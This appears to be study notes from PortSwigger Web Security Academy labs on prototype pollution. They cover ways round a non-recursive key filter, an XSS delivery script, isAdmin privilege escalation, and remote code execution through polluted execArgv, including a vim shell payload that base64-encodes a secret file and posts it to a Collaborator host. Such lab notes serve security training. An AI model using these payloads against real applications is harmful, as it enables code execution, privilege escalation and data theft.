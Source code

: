 ```
Use DOM Invader with prototype pollution function to automate the search while navigating


manual tests:
/?__proto__[foo]=bar 
/?constructor.prototype.foo=bar


Avoid filter by commenting the url with a '-' at the end


Spot filter on js script
let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
-> Not recursive
-> /?__pro__proto__to__[foo]=bar
-> /?__pro__proto__to__.foo=bar 
-> /?constconstructorructor[protoprototypetype][foo]=bar 
-> /?constconstructorructor.protoprototypetype.foo=bar
(all work)
-> identify sink: script.src = config.transport_url;
-> exploit: /?__pro__proto__to__[transport_url]=data:,alert(1);


Deliver to victim a prototype pollution XSS
<script>
 location="https://0aba00c003066a7a814d89c100fc0030.web-security-academy.net/#__proto__[hitCallback]=alert%281%29"
</script>


Priv Escalation:
Update settings request shows isadmin value in response
Can be modified in burpsuite, adding:
"__proto__": { "foo":"bar" }
this will add the foo param

restart node and update isAdmin value to true
"__proto__":{"isAdmin":true}



No reflection
-> "__proto__":{"status":555}
-> Force an error (remove a coma) and check if status object has been updated to 555



Try updating spaces:
"__proto__": { "json spaces":10 }
"constructor": { "prototype": { "json spaces":10 } }
-> In response switch to Raw to check indentation
-> "constructor": { "prototype": { "isAdmin":true } }



RCE
Pollute user settings
"__proto__": {
 "execPath":"curl","execArgv":["https://YOUR-COLLABORATOR-ID.oastify.com","."]
}

or the one of this lab:

"__proto__": {
    "execArgv":["--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}

After that, trigger admin job to trigger the execArgv


carlos secret??

"__proto__": { "shell":"vim", "input":":! cat /home/carlos/secret | base64 | curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n" }
```

##### Automation guide:
1. Load the lab in Burp's built-in browser.
2. [Enable DOM Invader](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/enabling) and [enable the prototype pollution option](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#enabling-prototype-pollution).
3. Open the browser DevTools panel, go to the **DOM Invader** tab, then reload the page.
4. Observe that DOM Invader has identified two prototype pollution vectors in the `search` property i.e. the query string.
5. Click **Scan for gadgets**. A new tab opens in which DOM Invader begins scanning for gadgets using the selected source.
6. When the scan is complete, open the DevTools panel in the same tab as the scan, then go to the **DOM Invader** tab.
7. Observe that DOM Invader has successfully accessed the `script.src` sink via the `value` gadget.
8. Click **Exploit**. DOM Invader automatically generates a proof-of-concept exploit and calls `alert(1)`.
##### To manually test:
- `/?__proto__[foo]=bar`
- Object.prototype on the console to see if foo is injected
- Study the JavaScript files that are loaded by the target site and look for any DOM XSS sinks. Ex: `Object.defineProperty()` method to make the `transport_url` unwritable and unconfigurable
- - Modify the payload in the URL to inject an XSS proof-of-concept. For example, you can use a `data:` URL as follows:
    `/?__proto__[value]=data:,alert(1);`



##### If filter is appended:
1. Go back to the previous browser tab and look at the `eval()` sink again in DOM Invader. Notice that following the closing canary string, a numeric `1` character has been appended to the payload.
2. Click **Exploit** again. In the new tab that loads, append a minus character (`-`) to the URL and reload the page.
3. Observe that the `alert(1)` is called and the lab is solved.

##### rstrip filter
1. Go to the **Sources** tab and study the JavaScript files that are loaded by the target site. Notice that `deparamSanitized.js` uses the `sanitizeKey()` function defined in `searchLoggerFiltered.js` to strip potentially dangerous property keys based on a blocklist. However, it does not apply this filter recursively.
2. Back in the URL, try injecting one of the blocked keys in such a way that the dangerous key remains following the sanitization process. For 
    `/?__pro__proto__to__[foo]=bar /?__pro__proto__to__.foo=bar /?constconstructorructor[protoprototypetype][foo]=bar /?constconstructorructor.protoprototypetype.foo=bar`
3. In the console, enter `Object.prototype` again. Notice that it now has its own `foo` property with the value `bar`. You've successfully found a prototype pollution source and bypassed the website's key sanitization.
4. Find transport_url is appended to the config object
	`__pro__proto__to__[transport_url]=data:,alert(1);`

##### Deliver to victim
```js
<script>
 location="https://0aba00c003066a7a814d89c100fc0030.web-security-academy.net/#__proto__[hitCallback]=alert%281%29"
</script>
```

##### Privilege escalaion
```
Update settings can be modified in burpsuite, adding:
"__proto__": { "foo":"bar" }
this will add the foo param

restart node and update isAdmin value to true
"__proto__": { isAdmin:true }
```
![[Pasted image 20240208221121.png]]

##### Force an error
remove the coma of the previous setting and update the status to 500
```
"__proto__":{"status":555}
```


##### If settings are reflected in JSON
try updating spaces:
```
"__proto__": { "json spaces":10 }

"constructor": { "prototype": { "json spaces":10 } }
```


##### prototype pollution RCE
```
"__proto__": {
 "execPath":"curl","execArgv":["https://YOUR-COLLABORATOR-ID.oastify.com","."]
}

or the one of this lab:

"__proto__": {
    "execArgv":["--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
}

```
run maintainance jobs from admin panel to trigger execArgv that is polluted


